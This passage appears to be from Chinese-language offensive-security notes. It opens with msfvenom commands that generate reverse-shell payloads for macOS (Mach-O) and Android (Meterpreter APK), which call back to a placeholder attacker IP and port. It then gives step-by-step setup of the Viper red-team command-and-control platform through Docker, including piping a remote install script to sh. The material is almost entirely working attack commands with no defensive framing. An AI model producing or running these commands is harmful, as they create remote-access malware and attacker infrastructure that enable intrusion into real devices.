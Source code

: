 ```nginx
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f macho -o payload.macho

# Android
msfvenom -a x86 --platform Android -p android/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f apk -o payload.apk

```



### 安装Viper

https://www.ddosi.org/viper/

```nginx
apt-get update
curl -sSL https://get.daocloud.io/docker | sh
service docker start

# 已经安装好docker直接执行下面的
curl -L https://get.daocloud.io/docker/compose/releases/download/1.25.5/docker-compose-`uname -s`-`uname -m` > /usr/local/bin/docker-compose
chmod +x /usr/local/bin/docker-compose

mkdir -p ~/viper
cd ~/viper

# 这条命令是用来将多行文本内容写入到文件 docker-compose.yml 中
# <<-'EOF' 是一种特殊的 shell 语法，
# 表示开始一个文本块，直到遇到 EOF 才结束。
tee docker-compose.yml <<-'EOF'
version: "3"
services:
  viper:
    image: registry.cn-shenzhen.aliyuncs.com/toys/viper:latest
    container_name: viper-container
    network_mode: "host"
    restart: always
    command: ["你的密码"]
EOF


# 首次启动会自动下载docker image
docker-compose up -d
```

```nginx
# 删除原有容器
cd ~/viper
docker-compose down

# 更新 docker 镜像
docker-compose pull

# 新建并启动容器
docker-compose up -d

# 关闭容器
docker-compose stop

# 再次打开(无需重新建立容器)
cd ~/viper
docker-compose start

# 查看容器日志
```
